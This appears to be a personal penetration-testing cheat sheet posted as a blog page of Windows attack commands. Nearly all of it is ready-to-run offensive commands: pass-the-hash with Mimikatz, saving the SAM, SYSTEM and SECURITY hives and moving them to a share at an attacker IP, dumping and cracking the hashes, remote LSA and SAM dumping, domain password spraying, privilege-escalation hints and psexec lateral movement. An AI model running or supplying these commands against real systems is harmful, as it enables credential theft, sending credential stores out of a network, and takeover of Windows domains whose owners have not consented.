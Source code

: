 ```yaml
---
layout: post
title: Commands & Hacks - Windows
toc: true
subtitle: Windows
comments: false
---
```


<b>Windows Authentication Tricks:</b> <br>

Windows Authentication Process Flowchart:

![auth](/pictures/windows/auth_process.png)

RDP via xfreerdp:

```
xfreerdp +clipboard /u:<user> /v:<target-IP> /cert-ignore
```

WinRM Auth via Evil-winrm:
```
evil-winrm -i <target-IP> -u <user> -p <pass>
```

Mimikatz Options:
```
/user
/rc4 - hash
/NTLM - hash
/domain - domain that the user to impersonate with belongs to i.e. localhost, DC01
/run - program running in user's context
```

Pass the Hash via Mimikatz cmd:
```
mimikatz.exe privilege::debug "sekurlsa::pth /user:<user> /domain DC01 /rc4:<hash> /domain:<domainname> /run:cmd.exe"

pushd \\DC01\<user>
 ```

<b>Windows Hashes & Passwords</b> <br>

Non-domain joined windows system, grab the 3 SAM registry hives.
```
hklm\sam - Local User Account Passwords Hashes
hklm\system - System Bootkey to decrypt SAM database
hklm\security - Domain Accounts' cached credentials
```

SAM backup command:
```
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save
C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save
```
Create Share server with smbserver.py to dump SAM:
```
sudo python3 /usr/bin/tools/impacket_smbserver.py -smb2support CompData /home/kali/Documents/
```
Move hive copies to Share server:
```
move sam.save \\<attacker_ip>\CompData
move security.save \\<attacker_ip>\CompData
move system.save \\<attacker_ip>\CompData
```
Dump Command:
```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

Cracking NT Hashes via hashcat:
```
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```
Cracking NTLMv2 Hash with hashcat:
```
hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt
```

Remote LSA Secrets Dumping via crackmapexec:
```
crackmapexec smb <target_ip> --local-auth -u <user> -p <pass> --lsa
```
Remote SAM Secrets Dumping via crackmapexec:
```
crackmapexec smb <target_ip> --local-auth -u <user> -p <pass> --sam
```
Enumerate Users with Kerbrute:
```
kerbrute userenum -d <domain_name> --dc <dc_ip> jsmith.txt -o valid_ad_user_accounts
```
Base64 encoding in Powershell for File Transfer:
```
[Convert]::ToBase64String((Get-Content -path "C:\..\file.txt" -Encoding byte)) | clip
```
Using DomainPasswordSpray.ps1:
```
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```
Check Defender status:
```
Get-MpComputerStatus
```
Post Exploit:
```
whoami /priv
```
If SeRestorePrivilege listed, run EnableSeRestorePrivilege.ps1 to have write access to C:\Windows\System32.

If SeImpersonatePrivilege, use juicy potato

Connect to win-host with psexec.py leveraging local admin user credentials:
```
psexec.py <domain.local>/<user>:'<password>'@<host_ip>
```
